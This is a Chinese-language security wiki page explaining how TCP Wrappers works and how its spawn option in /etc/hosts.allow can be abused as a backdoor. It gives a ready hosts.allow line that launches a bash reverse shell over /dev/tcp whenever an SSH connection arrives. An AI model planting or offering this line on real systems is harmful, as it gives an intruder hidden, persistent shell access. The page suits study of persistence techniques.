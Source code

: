 ## TCP Wrappers

TCPWrappers是一个工作在第四层（传输层）的的安全工具，对有状态连接的特定服务进行安全检测并实现访问控制，凡是包含libwrap.so库文件的的程序就可以受TCPWrappers的安全控制。它的主要功能就是控制谁可以访问，常见的程序有rpcbind、vsftpd、sshd，telnet。

**工作原理**

TCP_Wrappers有一个TCP的守护进程叫做tcpd。以ssh为例，每当有ssh的连接请求时，tcpd即会截获请求，先读取系统管理员所设置的访问控制文件，符合要求，则会把这次连接原封不动的转给真正的ssh进程，由ssh完成后续工作；如果这次连接发起的ip不符合访问控制文件中的设置，则会中断连接请求，拒绝提供ssh服务。

**利用**

TCP_Wrappers的使用主要是依靠两个配置文件/etc/hosts.allow, /etc/hosts.deny，用于拒绝和接受。这里演示使用的是接受配置信息。之所以能够被用作后门是因为他存在一个参数是spawn （spawn启动一个外部程序完成执行的操作） 修改/etc/hosts.allow文件：

```bash
ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/127.0.0.1/6666 0>&1") & :allow

```

![](images/security_wiki/15905822098091.png)


![](images/security_wiki/15905822135686.png)


当使用ssh连接的时候，它开始匹配规则，然后利用spawn执行的nc反弹了一个shell。

